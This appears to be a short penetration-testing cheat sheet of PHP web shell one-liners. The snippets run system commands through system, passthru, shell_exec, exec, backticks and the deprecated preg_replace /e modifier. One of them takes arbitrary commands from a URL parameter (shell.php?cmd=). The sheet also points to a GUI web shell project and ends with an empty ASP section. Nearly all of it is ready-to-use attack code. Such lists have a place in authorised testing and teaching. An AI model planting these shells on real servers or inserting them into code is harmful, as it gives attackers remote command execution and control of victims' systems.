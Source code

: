 # PHP Webshells

#### Execute one command
```<?php system("whoami"); ?>```

#### Take input from the url paramter. shell.php?cmd=whoami
```<?php system($_GET['cmd']); ?>```

#### The same but using passthru
```<?php passthru($_GET['cmd']); ?>```

#### For shell_exec to output the result you need to echo it
```<?php echo shell_exec("whoami");?>```

#### Exec() does not output the result without echo, and only output the last line. So not very useful!
```<?php echo exec("whoami");?>```

#### Instead to this if you can. It will return the output as an array, and then print it all.
```<?php exec("ls -la",$array); print_r($array); ?>```

#### preg_replace(). This is a cool trick
```<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>```

#### Using backticks
```<?php $output = `whoami`; echo "<pre>$output</pre>"; ?>```

#### Using backticks
```<?php echo `whoami`; ?>```

#### Web shell with GUI
Try Sweetuu : ```github.com/cspshivam/sweetuu```

# ASP Webshell
